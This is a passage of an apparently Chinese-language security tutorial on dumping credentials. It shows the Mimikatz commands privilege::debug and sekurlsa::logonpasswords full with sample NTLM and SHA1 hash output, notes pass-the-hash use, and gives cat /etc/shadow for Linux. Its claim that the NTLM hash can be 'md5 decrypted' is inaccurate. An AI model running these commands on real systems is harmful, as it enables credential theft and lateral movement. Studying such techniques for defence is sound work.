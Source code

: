 mimikatz工具查看

启动

```
privilege::debug
```

提升 Mimikatz 的权限，使其能够访问某些受保护的进程和内存区域

```
sekurlsa::logonpasswords full
```

用于提取当前系统中所有用户的登录凭证信息，包括明文密码、密码哈希、Kerberos 票据等

![image-20250601111501870](https://img2023.cnblogs.com/blog/3540423/202506/3540423-20250601193640189-467014548.png)

这里可以看到这些

#### **msv :**

- MSV（MSV1_0）模块是 Windows 的 NTLM 认证模块。
- 这是最常见的凭据类型，尤其是本地登录或远程桌面登录（RDP）后。

```
pgsql复制编辑[00000003] Primary           <-- 表示是一个主登录会话（LogonSession ID）
* Username : Administrator   <-- 当前用户
* Domain   : WIN-AGPMHM94DDK <-- 所属域（或主机名）
* NTLM     : 4b34f009686328c43587b910abc49ec7 <-- NTLM 哈希（可用于横向移动）
* SHA1     : 0fa08b4a9efd07e05288d89761d92d598acbb62b <-- SHA1版本的密码哈希
* DPAPI    : 0fa08b4a9efd07e05288d89761d92d59 <-- 用于解密受保护数据（如浏览器密码）
```

✅ 最关键的是 **NTLM 哈希**，可以用于 **Pass-the-Hash（PTH）攻击**。

```
4b34f009686328c43587b910abc49ec7
```

可以拿去md5解密



### linux

```
cat /etc/shadow
```

查看shadow文件

![image-20250601112114411](https://img2023.cnblogs.com/blog/3540423/202506/3540423-20250601193640675-1273118644.png)



## 源码加密

### php文件演示
